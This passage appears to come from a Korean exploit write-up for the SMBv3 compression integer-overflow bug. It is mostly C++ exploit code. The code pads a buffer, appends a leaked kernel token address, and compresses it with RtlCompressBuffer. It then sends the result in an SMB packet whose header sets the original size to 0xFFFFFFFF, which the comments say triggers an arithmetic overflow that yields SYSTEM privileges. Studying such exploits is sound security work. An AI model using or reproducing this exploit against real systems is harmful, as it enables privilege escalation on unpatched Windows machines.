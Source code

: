 system 권한으로 상승 시키기 위해 token 을 가져와야 한다. 이와 관련해서는 이미 글도 많이 써놓고 메모도 해놔서 code 정도로 링크를 삽입했다. 필자의 경우에는 NtQuerySystemInformation 함수를 사용해서 했다.

### Compressed Data

```cpp
	ULONG buffer_size = 0x1110;
	UCHAR* buffer = (UCHAR*)malloc(buffer_size);
	if (buffer == NULL) {
		printf("Couldn't allocate memory with malloc()\n");
		return error_exit(sock, NULL);
	}

	memset(buffer,'A', 0x1108);
	*(uint64_t*)(buffer + 0x1108) = ktoken + 0x40;

	ULONG CompressBufferWorkSapceSize = 0;
	ULONG CompressFragmentWorkSpaceSize = 0;
	err = RtlGetCompressionWorkSpaceSize(COMPRESSION_FORMAT_XPRESS, &CompressBufferWorkSapceSize, &CompressFragmentWorkSpaceSize);

	if (err != STATUS_SUCCESS) {
		printf("RtlGetCompressionWorkSpaceSize() Failed : %d\n", err);
		return error_exit(sock, NULL);
	}

	ULONG i = 0;
	ULONG FinalCompressedSize;
	UCHAR compressed_buffer[64];
	LPVOID lpWorkSpace = malloc(CompressBufferWorkSapceSize);
	if (lpWorkSpace == NULL) {
		printf("Not allocate IpWorkSpace !\n");
		return error_exit(sock, NULL);
	}

	err = RtlCompressBuffer(COMPRESSION_FORMAT_XPRESS, buffer, buffer_size, compressed_buffer, sizeof(compressed_buffer), 4096, &FinalCompressedSize, lpWorkSpace);
	if (err != STATUS_SUCCESS) {
		printf("RtlCompressBuffer() failed : %#x\n", err);
		free(lpWorkSpace);
		return error_exit(sock, NULL);
	}
```

다음은 `RtlCompressBuffer` 함수를 사용하기 위한 코드이다. 일단 0x1108 만큼의 데이터를 할당하고 이후에 SMB 통신시에 system 권한의 토큰이 필요하기 때문에 그 뒷부분에 넣어주었다.

아 물론 토큰값을 릭하기전에 SMB 패킷이 가는지 테스트를 먼저 해봐야한다.

```cpp
int send_compressed(SOCKET sock, unsigned char* buffer, ULONG len) {
	int err = 0;
	char response[8] = { 0 };

	const uint8_t buf[] = {
		/* NetBIOS Wrapper */
		0x00,
		0x00, 0x00, 0x33,

		/* SMB Header */
		0xFC, 0x53, 0x4D, 0x42, /* protocol id */
		0xFF, 0xFF, 0xFF, 0xFF, /* original decompressed size, trigger arithmetic overflow */
		0x02, 0x00,             /* compression algorithm, LZ77 */
		0x00, 0x00,             /* flags */
		0x10, 0x00, 0x00, 0x00, /* offset */
	};
```